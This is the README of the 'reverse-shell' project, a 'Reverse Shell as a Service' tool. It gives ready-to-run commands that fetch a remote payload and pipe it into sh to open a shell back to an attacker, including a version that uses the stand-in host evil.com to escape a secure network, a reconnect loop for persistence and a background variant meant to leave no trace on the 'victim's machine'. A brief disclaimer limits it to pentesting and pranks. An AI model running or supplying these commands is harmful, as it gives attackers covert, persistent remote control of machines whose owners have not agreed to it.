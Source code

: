 <div align="center">
	<br>
	<a href="https://reverse-shell.sh" target="_blank">
		<img width="128" src="favicon.ico" alt="keyv">
    </a>
</div>

# reverse-shell

> Reverse Shell as a Service - https://reverse-shell.sh

[![Coverage Status](https://coveralls.io/repos/github/lukechilds/reverse-shell/badge.svg?branch=master)](https://coveralls.io/github/lukechilds/reverse-shell?branch=master)
[![npm](https://img.shields.io/npm/v/reverse-shell.svg)](https://www.npmjs.com/package/reverse-shell)
[![GitHub Donate](https://badgen.net/badge/GitHub/Sponsor/D959A7?icon=github)](https://github.com/sponsors/lukechilds)
[![Bitcoin Donate](https://badgen.net/badge/Bitcoin/Donate/F19537?icon=bitcoin)](https://lu.ke/tip/bitcoin)
[![Lightning Donate](https://badgen.net/badge/Lightning/Donate/F6BC41?icon=bitcoin-lightning)](https://lu.ke/tip/lightning)

Easy to remember reverse shell that should work on most Unix-like systems.

Detects available software on the target and runs an appropriate payload.

## Usage

### 1. Listen for connection

On your machine, open up a port and listen on it. You can do this easily with netcat.

```shell
nc -l 1337
```
### 2. Execute reverse shell on target

On the target machine, pipe the output of https://reverse-shell.sh/yourip:port into sh.

```shell
curl https://reverse-shell.sh/192.168.0.69:1337 | sh
```

Go back to your machine, you should now have a shell prompt.

### 3. Don't be a dick

This is meant to be used for pentesting or helping coworkers understand why they should always lock their computers. Please don't use this for anything malicious.

## Demo

<img src="https://i.imgur.com/qqjhxAw.gif" width="808">

## Tips

### Hostname

You can use a hostname instead of an IP.

```shell
curl https://reverse-shell.sh/localhost:1337 | sh
```

### Remote connections

Because this is a reverse connection it can punch through firewalls and connect to the internet.

You could listen for connections on a server at evil.com and get a reverse shell from inside a secure network with:

```shell
curl https://reverse-shell.sh/evil.com:1337 | sh
```

### Reconnecting

By default when the shell exits you lose your connection. You may do this by accident with an invalid command. You can easily create a shell that will attempt to reconnect by wrapping it in a while loop.

```shell
while true; do curl https://reverse-shell.sh/yourip:1337 | sh; done
```

Be careful if you do this to a coworker, if they leave the office with this still running you're opening them up to attack.

### Running as a background process

The terminal session needs to be kept open to persist the reverse shell connection. That might be a bit of a giveaway if you're trying to prank coworkers.

The following command will run the reverse shell in a background process and exit the terminal, leaving no suspicious looking terminal windows open on the victim's machine.

Make sure you run this in a fresh terminal window otherwise you'll lose any work in your existing session.

```shell
sh -c "curl https://reverse-shell.sh/localhost:1337 | sh -i &" && exit
```

## License

MIT © Luke Childs
